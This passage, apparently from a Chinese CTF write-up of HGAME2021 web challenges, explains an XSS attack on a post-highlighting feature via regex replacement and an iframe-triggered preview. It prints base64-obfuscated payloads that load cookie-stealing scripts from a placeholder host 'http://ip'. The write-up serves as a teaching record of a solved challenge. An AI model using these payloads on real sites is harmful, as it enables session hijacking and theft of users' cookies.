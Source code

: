 ```
javascript:document.write(atob('PHNjcmlwdCBzcmM9Imh0dHA6Ly9pcC9teWpzL2Nvb2tpZS5qcyI+PC9zY3JpcHQ+'));
```

小手一抖，cookie到手：

[![](https://p4.ssl.qhimg.com/t01af2ce5cb8fa8bec7.png)](https://p4.ssl.qhimg.com/t01af2ce5cb8fa8bec7.png)

hgame`{`simple_csp_bypass&amp;a_small_mistake_on_the_replace_function`}`

### <a class="reference-link" name="Post%20to%20zuckonit%20another%20version"></a>Post to zuckonit another version

考点：XSS，HttpOnly绕过

说是绕`HttpOnly`，实则并没有绕；

相比于上一道XSS：
<li>增加了HttpOnly，使得我们直接用js不能直接获取到本地cookie；[![](https://p2.ssl.qhimg.com/t0174ea6c228c4dbbd2.png)](https://p2.ssl.qhimg.com/t0174ea6c228c4dbbd2.png)
</li>
<li>修改了功能，把直接替换字符串换成了查找字符串[![](https://p3.ssl.qhimg.com/t01c3c3a99ce804d4e8.png)](https://p3.ssl.qhimg.com/t01c3c3a99ce804d4e8.png)
</li>
依然在`static/www.zip`给出了源码：[source.zip](https://github.com/Anthem-whisper/CTFWEB_sourcecode/raw/main/HGAME2021/%5BHGAME2021%5DPost_to_zuckonit2.0_another_version.zip)

源码大同小异，甚至连waf都没变，单独在字符串替换功能上修改为正则匹配并且在两端加`&lt;b&gt;`标签，得到高亮效果

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01d0e4ce3d5caa8302.png)

如果按照正常思维来查找’a’字符串的话，效果就如下图：

[![](https://p4.ssl.qhimg.com/t01e52f9e6a3db70697.png)](https://p4.ssl.qhimg.com/t01e52f9e6a3db70697.png)

但是我们应当注意到，这个高亮实际上还是由`String.prototype.replace()`方法来进行**正则替换**的，那么我们如果输入`.*`之类的关键词进行高亮就会出现意想不到的效果：

[![](https://p1.ssl.qhimg.com/t01de1b291cc785641e.png)](https://p1.ssl.qhimg.com/t01de1b291cc785641e.png)

没错，因为正则替换让我们得以有机可乘

思路还是一样，先利用替换构造好XSS，再利用`&lt;iframe src='/preview'&gt;`来触发0-click

payload：

```
&lt;iframe src='/preview'&gt;
&lt;iframe src='AAA' &gt;
```

替换的payload：

```
AAA('srcdoc='&amp;lt;img src=1 onerror=document.write(atob('PHNjcmlwdCBzcmM9Imh0dHA6Ly9pcC9teWpzL0J5cGFzc19IVFRQX09ubHkuanMiPjwvc2NyaXB0Pg=='));&amp;gt;')*

```
